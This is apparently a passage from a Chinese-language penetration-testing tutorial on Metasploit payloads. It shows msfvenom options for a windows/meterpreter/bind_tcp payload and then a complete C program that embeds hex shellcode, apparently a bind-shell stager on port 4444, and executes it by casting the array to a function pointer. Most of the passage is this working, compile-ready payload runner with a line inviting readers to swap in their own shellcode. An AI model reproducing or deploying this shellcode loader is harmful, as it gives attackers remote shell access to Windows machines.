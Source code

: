 	msfvenom -p windows/meterpreter/bind_tcp --payload-options
    
	Basic options:
	Name      Current Setting  Required  Description
	----      ---------------  --------  -----------
	EXITFUNC  process          yes       Exit technique (accepted: seh, thread, process, none)
	LPORT     4444             yes       The listen port
	RHOST                      no        The target address



只示范reverse_tcp 大家可以根据各种不同的环境来选择Payload
**`reverse_http` or  `bind_tcp` ...**

自己本地生成的bind_tcp的payload并不能在Windows机子上运行 (提示不是可用的Win32程序:(....)

如果大家也有遇到这种错误的话 推荐用msfvenom生成c的shellcode 然后自己编译为exe后运行:)

说不定还有以外的效果哦～

分享一个bind_tcp的栗子 (自行更改shellcode)


	#include "windows.h"
	#include "stdio.h"
  
	typedef void (_stdcall *CODE)();

	unsigned char shellcode[] = 
	"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
	"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
	"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
	"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
	"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
	"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
	"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
	"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
	"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
	"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
	"\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
	"\x29\x80\x6b\x00\xff\xd5\x6a\x08\x59\x50\xe2\xfd\x40\x50\x40"
	"\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x68\x02\x00\x11\x5c\x89"
	"\xe6\x6a\x10\x56\x57\x68\xc2\xdb\x37\x67\xff\xd5\x85\xc0\x75"
	"\x50\x57\x68\xb7\xe9\x38\xff\xff\xd5\x57\x68\x74\xec\x3b\xe1"
	"\xff\xd5\x97\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff"
	"\xd5\x83\xf8\x00\x7e\x2d\x8b\x36\x6a\x40\x68\x00\x10\x00\x00"
	"\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56"
	"\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x07\x01"
	"\xc3\x29\xc6\x75\xe9\xc3\xbb\xf0\xb5\xa2\x56\x6a\x00\x53\xff"
	"\xd5";
	
	void RunShellCode()  
	{  
	    ( (void (*)(void))&shellcode )();  
	}  
	  
	
	void main()  
	{  
	    RunShellCode();  
	}
	